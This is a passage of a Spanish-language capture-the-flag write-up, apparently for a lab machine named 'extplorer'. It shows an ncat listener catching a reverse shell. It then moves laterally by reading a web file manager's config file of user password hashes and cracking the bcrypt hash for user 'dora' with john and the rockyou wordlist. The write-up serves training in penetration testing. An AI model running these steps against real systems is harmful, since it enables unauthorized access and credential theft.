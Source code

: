 Nos ponemos en escucha con **netcat**:

```bash
ncat -nvlp 443
```

Y obtenemos la **shell**:

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/Pasted image 20250302000234.png">
</p>

# Movimiento Lateral a **Dora**

Enumerando un poco el servidor web, me encuentro con este archivo: `filemanager/config/.htusers.php`

```php
<?php 
	// ensure this file is being included by a parent file
	if( !defined( '_JEXEC' ) && !defined( '_VALID_MOS' ) ) die( 'Restricted access' );
	$GLOBALS["users"]=array(
	array('admin','21232f297a57a5a743894a0e4a801fc3','/var/www/html','http://localhost','1','','7',1),
	array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.************************','/var/www/html','http://localhost','1','','0',1),
); 
```

Parece que son hashes de usuarios y el usuario 'dora' existe en el sistema. Podríamos tratar de crackear el hash de 'dora' con **john**.

```bash
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Created directory: /root/.john
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
do******         (?)
1g 0:00:00:01 DONE (2025-03-02 00:04) 0.5154g/s 779.3p/s 779.3c/s 779.3C/s gonzalez..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Logramos crackear el hash, ¡podríamos probar la contraseña para el usuario **dora**!

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/Pasted image 20250302000259.png">
</p>

